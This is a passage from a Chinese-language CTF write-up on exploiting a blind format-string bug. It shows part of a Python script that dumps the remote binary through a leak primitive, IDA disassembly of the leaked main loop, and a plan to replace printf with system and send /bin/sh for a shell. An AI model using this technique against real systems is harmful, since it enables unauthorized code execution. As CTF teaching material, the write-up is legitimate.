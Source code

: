 ```python
		data = leak(addr)
		if data is None:
			f.write('\xff')
			addr += 1
		elif len(data) == 0:
			f.write('\x00')
			addr += 1
		else:
			f.write(data)
			addr += len(data)
	f.close()
getbinary()
```

需要注意的是，在payload中需要判断是否有'\n'出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

### 分析binary

利用ida打开泄露的binary，改变程序基地址，然后简单看看，可以基本确定源程序main函数的地址

```assembly
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```

可以基本确定的是sub_4004C0为read函数，因为读入函数一共有三个参数的话，基本就是read了。此外，下面调用的sub\_4004B0应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个while 1的循环，一直在执行。

### 利用思路

分析完上面的之后，我们可以确定如下基本思路

- 泄露printf函数的地址，
- 获取对应libc以及system函数地址
- 修改printf地址为system函数地址
- 读入/bin/sh;以便于获取shell
